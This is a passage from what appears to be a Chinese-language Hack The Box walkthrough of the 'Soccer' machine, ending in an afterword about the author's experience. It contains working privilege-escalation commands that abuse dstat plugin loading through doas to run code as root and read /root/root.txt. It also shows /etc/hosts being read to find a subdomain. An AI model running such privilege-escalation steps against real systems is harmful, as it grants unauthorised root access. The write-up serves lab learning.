 不过秉持着尽量少地修改系统的原则。想想按照exp文章里直接给bash设置SUID的做法不太妥当，所以我选择直接拿flag：
```bash
echo -e "import os\nos.system('cat /root/root.txt')" > dstat_exploit.py
doas /usr/bin/dstat --exploit
```

---

## 后记

第一次玩了一把新鲜出炉放在Release Area的靶机~才知道原来新靶机是用另一个ovpn，并且一人一靶机。  
看着之前一部Windows的Support要退役，这台开始进入倒数，算算正好是周末放假时间。于是就想着我也要尝个新鲜~两天打下来十分开心。

总体来说感觉比之前打的那几台Esay难一些，看Forum过了的人也说不像是Esay的靶机。不过学到了很多，十分开心。  
获取初始访问有点绕，以及系统有各种清理还挺烦的。  

后来偶然在一个网站看到[别人的WP](https://systemweakness.com/soccer-hack-the-box-f02665c71abe)，关于如何找到另一个网页（soc-player.htb）有个新思路：查看hosts文件。  
惊了，连忙试了下看看是不是真的：
```bash
bash-5.0$ cat /etc/hosts
cat /etc/hosts
127.0.0.1       localhost       soccer  soccer.htb      soc-player.soccer.htb

127.0.1.1       ubuntu-focal    ubuntu-focal
```

学到了学到了啊，看来以后hosts文件也要列入信息收集的范围里。